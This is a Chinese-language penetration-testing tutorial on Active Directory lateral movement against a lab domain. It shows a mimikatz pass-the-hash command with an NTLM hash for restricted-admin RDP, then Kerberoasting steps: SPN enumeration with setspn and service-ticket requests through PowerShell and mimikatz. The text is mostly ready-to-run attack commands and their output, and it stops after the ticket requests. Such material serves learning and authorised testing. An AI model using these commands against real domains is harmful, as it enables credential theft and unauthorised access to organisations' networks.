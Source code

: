 ###  开启后运行

```
mstsc.exe /restrictedadmin
mimikatz.exe
privilege::debug
sekurlsa::pth /user:administrator /domain :god  /ntlm 
:ccef208c6485269c20db2cad21734fe7  "/run:mstsc.exe /restrictedadmin"
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/69-4.png)



## 域横向移动SPN服务-探针，请求，导出，破解，重写

[kerberos中的spn详解](https://www.cnblogs.com/backlion/p/8082623.html)

SPN扫描也称为”扫描Kerberos服务实例名称”。**SPN扫描通过请求特定SPN类型的服务主体名称来查找服务**。与网络端口扫描相比，**SPN扫描的主要特点是不需要通过连接网络中的每个IP地址来检查服务端口**(不会因为触发内网中的IPS、IDS等设备的规则而产生大量的警告日志)。因为SPN查询是Kerberos票据行为的一 部分，所以检测难度很大。

- <font color="red" size="3">**在活动目录中发现服务的最佳方法就是SPN扫描**</font> 

kerberoast下载：[https://github.com/nidem/kerberoast](https://github.com/nidem/kerberoast)

### 探针

```shell
setspn -q */*
setspn -q */* | findstr "MSSQL"
```

 ![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/69-5.png)

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/69-6.png)

```shell
MSSQLSvc/mary-PC.god.org:1433
MSSQLSvc/mary-PC.god.org
MSSQLSvc/WebServer.god.org:1433
MSSQLSvc/WebServer.god.org
MSSQLSvc/fileserv.god.org:1433
MSSQLSvc/SqlServer.god.org:1433
MSSQLSvc/SqlServer.god.org
```

### 请求票据

```shell
# 删除缓存票据
klist purge

# powershell请求
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList  "服务名"
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList  "MSSQLSvc/SqlServer.god.org:1433"

# mimikatz请求
mimikatz.exe  "kerberos::ask /target:xxxx"

# 查看票据
klist
```
